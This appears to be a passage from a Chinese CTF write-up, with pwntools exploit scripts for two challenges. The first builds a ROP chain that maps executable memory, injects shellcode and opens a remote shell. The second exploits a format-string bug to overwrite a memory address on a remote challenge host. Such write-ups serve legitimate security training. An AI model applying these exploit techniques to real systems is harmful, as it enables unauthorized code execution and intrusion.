 ```
	num = 0
	for i in range(4):
		recovery(th)
		while 1:
			attack(p)
			num += 1
			data = p.recvn(5)
			if data == 'you f':
				print 'failed'
				sys.exit(0)

			if data == 'you w':
				break

			if num > 4:
				num = 0
				recovery_hp(p)

			recovery(th)
	p.recvuntil('name:')
	mmap_addr = 0x080486B0
	read_addr = 0x080485F0
	retn_addr = 0x08048F02

	rop = ROP('./play')
	rop.call('mmap', [0x233000, 0x1000, 7, 34, -1, 0])
	rop.call('read', [0, 0x233000, 0x100])
	rop.call(retn_addr)
	p.sendline('a' * 0x4c + str(rop)[:-4] + p32(0x233000))
	p.send(asm(shellcraft.sh()))


	p.interactive()

if __name__ == '__main__':
	game_start('47.104.90.157', 30003, 0)
```

### 药物浓度

这题的考点是一个格式化字符串漏洞，计算offset为12之，修改0x804b14c地址的值为0x2223322就可以了。

有个坑点在于修改完了之后，并不知道接下来要干嘛。也没有看见flag。无意间ctrl c后发现了flag。思考了很久并不知道为什么，在此感谢bluecake dalao指出了问题：程序每次刷新时会把flag隐藏掉，因此把每次获取的输入输出即可。

```
from pwn import *
context_level = 'debug'
addr = 0x804b14c
value = 0x2223322
payload = fmtstr_payload(12, {addr:value })  
print payload
#payload = p32(addr) + "|%x"*16
#payload = p32(addr) + 
ip = '47.104.70.11'  
port = 30002
io = remote(ip,port)
io.sendline(payload)

# payload1 = "----%15s====" + p32(addr1)
# print 'aaaa' + payload1
# io.sendline(payload1)
# io.interactive()

```